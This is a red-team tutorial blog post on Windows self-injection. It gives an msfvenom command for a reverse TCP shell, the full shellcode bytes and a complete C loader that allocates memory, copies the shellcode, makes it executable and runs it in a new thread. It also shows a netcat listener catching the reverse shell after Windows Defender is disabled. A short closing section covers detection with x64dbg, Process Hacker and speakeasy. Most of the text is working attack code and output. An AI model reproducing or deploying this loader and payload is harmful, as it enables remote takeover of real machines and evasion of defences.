








# Self Injection

Penetration testers and Red Team operators face growing challenges during their engagements, as Antivirus (AV) solutions and Endpoint Detection and Response (EDR) systems have become a real obstacle against their offensive tooling.

For that reason, I decided to launch a series of articles covering the most notable and widely used techniques, whether adopted by APT groups or leveraged within Red Team operations. Each article in this series builds on the previous one, so if you haven't read **"Under The Hood: EDR"** yet, I strongly recommend doing so first — it will give you a solid understanding of how modern defense systems operate before diving into these techniques with us.

**Disclaimer:** Everything presented in this series is intended strictly for educational and research purposes. I bear no responsibility for any unlawful use of these techniques.

## How Malware Gets Detected

Antimalware solutions use two types of detection:

- **Static analysis:**  examines a binary without executing it. Involves file fingerprinting, signature scanning, reverse engineering, PE header analysis, and packer detection.
- **Dynamic analysis:** executes the program in a monitored sandbox environment. Uses a behavior-based approach: API hooking, registry change monitoring, network traffic analysis, memory write interception, and more.

### Note
For a deeper understanding of static and dynamic analysis, see my previous article [Under the hood elastic](https://r00tven0m.github.io/posts/under-the-hood-elastic-defend-etw/)

## Environment Setup

The first application we will build is a shellcode loader written in C.

**Why C instead of C# or Python?** C allows us to compile our code into a native executable, which can present different reverse-engineering challenges compared to managed code or interpreted scripts. However, native binaries are not inherently harder to analyze; the difficulty depends on factors such as compiler optimizations, binary structure, and implemented obfuscation techniques.

We will use **Microsoft Visual Studio Community 2017, 2019, or 2022** on **Windows 10 or 11 .** During installation, make sure to select the Desktop development with C++ workload, which includes the tools required to build native C and C++ applications.

Once the installation is complete, we'll be ready to start building our first application.

## Simple Shellcode Loader

Open MS Visual Studio, click **Create a new project**, select **C++** as the language, and choose the **Empty Project** template:



Then define a project name and location. In the **Solution Explorer**, under **Source Files**, right-click → **Add** → **New Item** → **C++ File**, name it, and click **Add**.

## Generating Shellcode


Self-injection, also called local process injection, is a technique where malware `places code inside its own running process` and executes it there, instead of targeting a separate process. The usual approach is to `allocate memory` in the current process, `copy the payload` (typically shellcode) into it, and then `start a new thread` that begins execution at that memory address. Because all of this happens in one process, there is `no need to spawn a new process` or open a handle to another one, which keeps the activity quieter and reduces the number of telemetry events that defenses can flag. Once it is running, the payload has the same privileges and access as the host process and can do whatever it was built to do.

The diagram below walks through each stage of local process injection: memory is allocated, the shellcode is copied into it, and a new thread is created to execute it.

A basic loader that is good to start with as a first step 

Shellcode is a position-independent sequence of machine instructions used to take control of a compromised process.


## Steps


We will use a Metasploit `windows/x64/shell_reverse_tcp` payload for demonstration purposes.

```bash
msfvenom -p windows/x64/shell_reverse_tcp  LPORT=9001 LHOST=<Attacker-IP> EXITFUNC=thread -f c
```

This generates a reverse TCP shell shellcode for Windows x64 in C format:

```c
unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x04\xd2\x64\x5b\xb0\x1a\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```

To execute our shellcode we first include `Windows.h` (all Win32 APIs) and `stdio.h` (for `printf`).
```c
#include <Windows.h>
#include <stdio.h>
```

Then we will create our main function and initialize our payload that contains our shellcode previously generated by MSF.

we will use [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) to allocate memory for our payload :
* The 1st argument is NULL : we will let the system determines where to allocate the region
* The 2nd argument is the size of the region to allocated, in bytes.
* The 3rd argument is the type of memory allocation,  we reserve and commit pages with **MEM_COMMIT | MEM_RESERVE**
* The 4th argument is the memory protection for the region of pages to be allocated set to **PAGE_READWRITE**, you can specify any one of the [memory protection constants](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants).
* The return value is the base address of the allocated region of pages, if the function fails, the return value is **NULL**.
Always refer to the documentation, everything is well defined 

### Syntax 
```C++
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```


```c

LPVOID pMemory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

if (!pMemory) {
    printf("Memory allocation failed (%u)\n", GetLastError());
    return -1;
}
```


Then we will use [MoveMemory](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366788(v=vs.85)) to move our payload to the allocated buffer :
* The 1st argument is the allocated memory address.
* The 2nd argument is the address of our shellcode.
* The 3rd argument is the size of our shellcode.
* This function has no return value.

### Syntax
```c++
void MoveMemory(
  _In_       PVOID  Destination,
  _In_ const VOID   *Source,
  _In_       SIZE_T Length
);
```

```c
MoveMemory(pMemory, payload, sizeof(payload));
```

Then we will use [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) to change the protection on the region of committed pages that we allocated.
* The 1st argument is the address of the starting page of the region of pages whose access protection attributes are to be changed.
* The 2nd argument is the size of the region whose access protection attributes are to be changed, in bytes.
* The memory protection option.This parameter can be one of the [memory protection constants](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants).
* A pointer to a variable that receives the previous access protection value of the first page in the specified region of pages.
* If the function succeeds, the return value is nonzero, else it returns "**NULL**".

### Syntax
```c++
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```


```c
DWORD oldProtect;

if (!VirtualProtect(pMemory, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
    printf("Memory protection change failed (%u)\n", GetLastError());
    return -2;
}
```

Then we will use [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) to create a thread and run our payload.
* The 1st argument is "**NULL**" so the returned handle cannot be inherited by child processes.
* The 2nd argument is "**Zero**", the new thread uses the default size of the stack for the executable.
* The 3rd argument is a pointer to the application-defined function to be executed by the thread : our allocated memory that contains the shellcode.
* The 4th argument is "**NULL**" : a pointer to a variable to be passed to the thread.
* The 5th argument is "**Zero**" : The flags that control the creation of the thread , 0 means : The thread runs immediately after creation.
* The 6th argument is "**NULL**" : A pointer to a variable that receives the thread identifier. If this parameter is **NULL**, the thread identifier is not returned.
* If the function succeeds, the return value is a "**handle to the new thread**", else it returns "**NULL**"

### Syntax

```c++
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```


```c
HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);
if (!hThread) {
    printf("Thread creation failed (%u)\n", GetLastError());
    return -3;
}
```

Then we will use [WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) to wait until the thread is finished executing the shellcode.
* The 1st argument is a handle to the thread.
* The 2nd argument is a the time-out interval, in milliseconds. If a nonzero value is specified, the function waits until the thread is finished.
* If the function succeeds, the return value indicates the event that caused the function to return.

### Syntax

```c++
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```


```C
WaitForSingleObject(hThread, INFINITE);
```

Closes an open object handle.
Then we will use [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)

Syntax
```c++
BOOL CloseHandle(
  [in] HANDLE hObject
);
```
```c
CloseHandle(hThread);
```


This is our code :

```c
#include <Windows.h>
#include <stdio.h>

int main() {

	//msfvenom -p windows/x64/shell_reverse_tcp  LPORT=9001 LHOST=192.168.100.50 EXITFUNC=thread -f c 
	unsigned char payload[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x04\xd2\x64\x5b\xb0\x1a\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

// Step 1 & 2 │ VirtualAlloc() + MoveMemory()
//              Allocate memory → copy shellcode in
LPVOID pMemory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

if (!pMemory) {
    printf("Memory allocation failed (%u)\n", GetLastError());
    return -1;
}

MoveMemory(pMemory, payload, sizeof(payload));

DWORD oldProtect;
// Step 3  VirtualProtect()  Changes page protection to executable
if (!VirtualProtect(pMemory, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
    printf("Memory protection change failed (%u)\n", GetLastError());
    return -2;
}

// Step 4  CreateThread( start = shellcodeAddr ) Point new thread at the shellcode

HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);
if (!hThread) {
    printf("Thread creation failed (%u)\n", GetLastError());
    return -3;
}
// print the address where the memory was allocated to store the shellcode and ID Procces.

DWORD tid = GetThreadId(hThread);
printf("[!] Local thread created with TID: %lu\n", tid);
printf("[!] Local thread start address: 0x%p\n", pMemory);
printf("[+] Shellcode injected successfully.\n");
printf("[!] Local thread start address: 0x%p\n", pMemory);
// Step 5  WaitForSingleObject / CloseHandle
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
return 0;
```

## Testing

Let's set up a listener on the attacker machine and wait for a callback:

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 9001
listening on [any] 9001 ...
```

Let's "*Build*" our binary for x64 architecture and Release mode and make sure to disable Windows Defender and run it :

```batch
C:\Users\User> C:\Users\User\source\repos\SimpleLoader\x64\Release\SimpleLoader.exe

C:\Users\User>
```

And we got a reverse shell :

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [192.168.100.50] from (UNKNOWN) [192.168.100.64] 50291
Microsoft Windows [Version 10.0.22621.6060]
(c) Microsoft Corporation. All rights reserved.

C:\Users\User>whoami
whoami
windev2407eval\user

C:\Users\User>

```
## Detecting Self Injection

To examine the contents of the allocated memory space, launch **x64dbg** and connect it to the process responsible for the injection.

In the Dump pane at the bottom-left, right-click and navigate to **Go to > Expression**.



Enter the address of the memory region allocated to store the `shellcode` in the local process.
 

The memory view is now populated with the shellcode. The byte sequence FC 48 83 E4 matches the corresponding bytes in the shellcode.



## Suspicious Memory Region
We executed the sample and opened Process Hacker, where we identified a suspicious private memory region at address `0x2a6cdc00000`, with no associated file path.
The region was divided into two sub-regions: one with RW permissions and the other with RX permissions. This pattern is consistent with self-injection, where the shellcode is first written into memory and then executed.

The hex dump analysis also confirmed that the region contained injected code matching the shellcode in the source code opened in Visual Studio.



The screenshot shows two Process Hacker windows for self_injection.exe. The left window reveals three suspicious imported functions  VirtualAlloc, VirtualProtect, and memcpy



### Save shellcode for analysis
We can extract the shellcode from the running sample and save it into a file for analysis. In x64dbg, we can select the shellcode, right-click on the selected bytes, and click on Binary > Save to a File, as shown in the screenshot below.

To perform a quick analysis of the shellcode, we can simply launch speakeasy


Let's try this using speakeasy. This can be executed using the command below:

```cmd
C:\Users\User\Desktop>py -3.11 -m speakeasy -t shellcode.bin -r -a x64
* exec: shellcode
0x10fe: 'kernel32.LoadLibraryA("ws2_32")' -> 0x78c00000
0x110f: 'ws2_32.WSAStartup(0x101, 0x1203e08)' -> 0x0
0x112b: 'ws2_32.WSASocketA("AF_INET", "SOCK_STREAM", 0x0, 0x0, 0x0, 0x0)' -> 0x4
0x1140: 'ws2_32.connect(0x4, "192.168.100.50:9001", 0x10)' -> 0x0
0x1195: 'kernel32.CreateProcessA(0x0, "cmd", 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x1203f38, 0x1203f20)' -> 0x1
0x11a5: 'kernel32.WaitForSingleObject(0x220, 0xffffffffffffffff)' -> 0x0
0x11b2: 'kernel32.GetVersion()' -> 0x1db10106
* Child process timeout reached after 60 seconds
* Timeout of 60 sec(s) reached.
* Finished emulating
```




# Summery 
- Build a Shellcode Loader in C using the Self-Injection technique.
- Understand Static Analysis, Dynamic Analysis, and malware detection mechanisms.
- Generate Shellcode using Metasploit and `msfvenom`.
- Implement injection stages using Windows APIs such as `VirtualAlloc`, `VirtualProtect`, and `CreateThread`.
- Test the Reverse Shell using Netcat.
- Detect and analyze Self-Injection using x64dbg and Process Hacker.
- Extract Shellcode and analyze its behavior using Speakeasy and Windows API tracing.

Objective: Understand how Shellcode is executed, detected, and analyzed.